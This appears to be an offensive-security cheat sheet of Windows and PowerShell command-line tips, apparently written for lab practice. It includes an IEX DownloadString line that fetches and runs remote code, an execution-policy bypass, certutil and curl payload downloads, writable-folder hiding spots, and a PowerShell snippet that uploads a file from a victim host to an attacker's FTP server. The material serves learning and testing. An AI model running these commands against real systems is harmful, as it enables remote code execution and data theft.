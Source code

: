 # CLI Tips

## Powershell

### Load Powershell Module Over HTTP

Load Powershell Module Over HTTP:

```
IEX (New-Object Net.WebClient).DownloadString('http://example.com/some_module.ps1');'
```

### Bypass Powershell Execution Policy

If you don't bypass the execution policy, you won't be able to run external powershell scripts. Run Powershell with Execution Policy Bypass:

```
powershell.exe -ExecutionPolicy Bypass
```

### **Switch to 64-bit Powershell from 32-bit**

If you're on a 64-bit machine and running a 32-bit Powershell, [then some things might not work, such as autologon discovery](https://youtu.be/Cz6vQvGGiuc?t=2491).&#x20;

* Check in powershell:
  * \[environment]::Is64BitOperatingSystem
  * \[environment]::Is64BitProcess
* Access 64-bit Powershell at:&#x20;
  * C:\Windows\SysNative\WindowsPowerShell\v1.0\Powershell.exe
  * This path should exist for 32-bit applications **even if you can't see it** [because it is virtual.](https://www.samlogic.net/articles/sysnative-folder-64-bit-windows.htm)
  * Just running that executable from an existing 32-bit executable might not work. I got it to work when I rewrote the original payload to use this path instead of just powershell.exe with no path.

### View Hidden Files

```
Get-ChildItem -Force
```

### Running Powershell commands from CMD

You can do it like this, but you need to press enter to get the output.&#x20;

```
powershell -command "whoami"
```

### Writable Folders

[Default Writeable Folders](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md):

* C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
* C:\Windows\System32\spool\drivers\color
* C:\Windows\Tasks
* C:\Windows\tracing
* C:\Windows\Temp
* C:\Users\Public

### Transferring Files

{% embed url="https://guide.offsecnewbie.com/transferring-files" %}

#### HTTP Download

Start an HTTP server on your Linux machine:&#x20;

```
python3 -m http.server
```

Download file over HTTP using curl (in case it's installed in Powershell):&#x20;

```
curl http://IP:PORT/file.exe -O ./file.exe
```

Download file using certutil:&#x20;

```
certutil.exe -f -urlcache http://IP:PORT/path/filename.exe filename.exe
```

#### FTP Upload

Start an FTP server on your linux machine:&#x20;

```
pip3 install pyftpdlib 
python3 -m pyftpdlib --username myuser --password mypass --write
```

If you don't specify username and password, then you can log in with user anonymous and no password.

```
$File = "C:\Users\svc-alfresco\Documents\winpeas.txt";
$ftp = "ftp://myuser:mypass@10.10.14.141:2121/winpeas.txt";                    
$webclient = New-Object -TypeName System.Net.WebClient;
$uri = New-Object -TypeName System.Uri -ArgumentList $ftp;
$webclient.UploadFile($uri, $File);
```

